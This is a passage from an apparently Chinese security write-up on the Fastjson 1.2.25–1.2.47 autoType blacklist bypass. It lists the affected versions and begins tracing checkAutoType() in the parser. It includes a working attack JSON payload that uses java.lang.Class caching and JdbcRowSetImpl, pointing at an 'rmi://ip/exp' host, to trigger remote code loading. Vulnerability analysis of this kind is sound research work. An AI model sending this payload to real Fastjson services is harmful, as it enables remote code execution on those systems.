 44版本针对43版本的绕过作了处理，[ 开头或者 L 开头 ; 结尾都会抛出异常

**Bypass**

**前提：1.2.25-1.2.32版本：未开启AutoTypeSupport时能成功利用，开启AutoTypeSupport反而不能成功触发；1.2.33-1.2.47版本：无论是否开启AutoTypeSupport，都能成功利用；**

攻击json如下：

```json
{
    "a": {                              
        "@type": "java.lang.Class",           //放入内存
        "val": "com.sun.rowset.JdbcRowSetImpl"
    }, 
    "b": {
        "@type": "com.sun.rowset.JdbcRowSetImpl",   //触发payload弹计算器
        "dataSourceName": "rmi://ip/exp",  
        "autoCommit": true
    }
}
```



在DefaultJSONParser类中。传进来的@type的值要进入一个checkAutoType()方法的判断：

![image-20230609105231200](img/image-20230609105231200.png)

能够看出来这个方法中，会先做一个黑白名单的判断，

![image-20230609105736726](img/image-20230609105736726.png)
